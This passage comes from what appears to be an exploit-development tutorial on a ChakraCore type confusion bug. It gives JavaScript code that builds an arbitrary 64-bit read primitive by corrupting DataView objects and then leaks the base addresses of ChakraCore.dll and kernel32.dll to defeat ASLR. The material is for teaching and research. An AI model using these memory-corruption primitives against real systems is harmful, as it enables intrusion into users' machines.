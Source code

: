 ```javascript
    print("[+] DataView object 2 leaked vtable from ChakraCore.dll: 0x" + hex(vtableHigh) + hex(vtableLo));

    // Store the base of chakracore.dll
    chakraLo = vtableLo - 0x1961298;
    chakraHigh = vtableHigh;

    // Print update
    print("[+] ChakraCore.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));

    // Leak a pointer to kernel32.dll from from ChakraCore's IAT (for who's base address we already have)
    iatEntry = read64(chakraLo+0x17c0000+0x40, chakraHigh);     // KERNEL32!RaiseExceptionStub pointer

    // Store the upper part of kernel32.dll
    kernel32High = iatEntry[1];

    // Store the lower part of kernel32.dll
    kernel32Lo = iatEntry[0] - 0x1d890;

    // Print update
    print("[+] kernel32.dll base address: 0x" + hex(kernel32High) + hex(kernel32Lo));
}

main();
```

We can see from here we successfully leak the base address of `kernel32.dll`.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion73.png" alt="">

You may also wonder, our `iatEntry` is being treated as an array. This is actually because our `read64()` function returns an array of two 32-bit values. This is because we are reading 64-bit pointer-sized values, but remember that JavaScript only provides us with means to deal with 32-bit values at a time. Because of this, `read64()` stores the 64-bit address in two separated 32-bit values, which are managed by an array. We can see this by recalling the `read64()` function.

```javascript
// Arbitrary read function
function read64(lo, hi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to read from (4 bytes at a time: e.g. 0x38 and 0x3C)

    // Instead of returning a 64-bit value here, we will create a 32-bit typed array and return the entire away
    // Write primitive requires breaking the 64-bit address up into 2 32-bit values so this allows us an easy way to do this
    var arrayRead = new Uint32Array(0x10);
    arrayRead[0] = dataview2.getUint32(0x0, true);   // 4-byte arbitrary read
    arrayRead[1] = dataview2.getUint32(0x4, true);   // 4-byte arbitrary read

    // Return the array
    return arrayRead;
}
```
